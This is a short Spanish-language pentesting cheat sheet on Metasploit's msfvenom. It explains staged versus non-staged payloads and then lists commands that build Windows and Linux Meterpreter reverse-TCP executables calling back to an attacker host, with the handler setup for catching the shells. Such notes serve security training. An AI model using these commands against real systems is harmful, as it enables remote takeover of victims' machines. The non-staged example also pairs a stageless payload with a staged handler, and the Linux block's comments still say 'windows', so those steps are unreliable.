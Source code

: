 ## Msfvenom

Msfvenom es una herramienta de la suite de herramientas de Metasploit que se utiliza para generar payloads personalizados. La herramienta msfvenom permite a los usuarios crear diferentes tipos de payloads, incluyendo payloads para exploits de vulnerabilidades, troyanos de acceso remoto (RATs), payloads para ejecución de comandos, entre otros.

#### Diferencias entre payload Staged y Non-Staged

Un payload staged se refiere a un ataque en el que el atacante divide el payload en varias partes o etapas, lo que le permite evadir las defensas de seguridad en el sistema de destino. La primera etapa del payload staged suele ser un pequeño archivo que se envía al sistema objetivo y se ejecuta para establecer una conexión con el atacante o con un servidor controlado por el atacante. Una vez que se establece la conexión, el atacante puede enviar y ejecutar el resto de las etapas del payload para llevar a cabo el ataque.

Por otro lado, un payload non-staged es aquel que se entrega en una sola pieza. No hay necesidad de establecer una conexión separada o realizar una descarga adicional de archivos para ejecutar el ataque. Este tipo de payload es más simple y menos sofisticado que un staged payload, pero también es más fácil de detectar por los sistemas de seguridad.

### Payload Staged

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4443 -f exe -o payload.exe
msfconsole -q # para abirir la terminal
use exploit/multi/handler # tipo de explotación
set payload windows/x64/meterpreter/reverse_tcp # listener windows 
set LHOST <ip> # ip del listener
set LPORT 4443 # puerto del listener
run # ejecutar y ponerse en escucha
```

#### Con Linux

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=4443 -f elf -o rev
use exploit/multi/handler # tipo de explotación
set payload linux/x64/meterpreter_reverse_tcp # listener windows 
set LHOST <ip> # ip del listener
set LPORT 4443 # puerto del listener
run # ejecutar y ponerse en escucha
```

### Payload Non-Staged

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=4443 -f exe -o payload.exe
msfconsole -q # para abirir la terminal
use exploit/multi/handler # tipo de explotación
set payload windows/x64/meterpreter/reverse_tcp # listener windows 
set LHOST <ip> # ip del listener
set LPORT 4443 # puerto del listener
run # ejecutar y ponerse en escucha
```
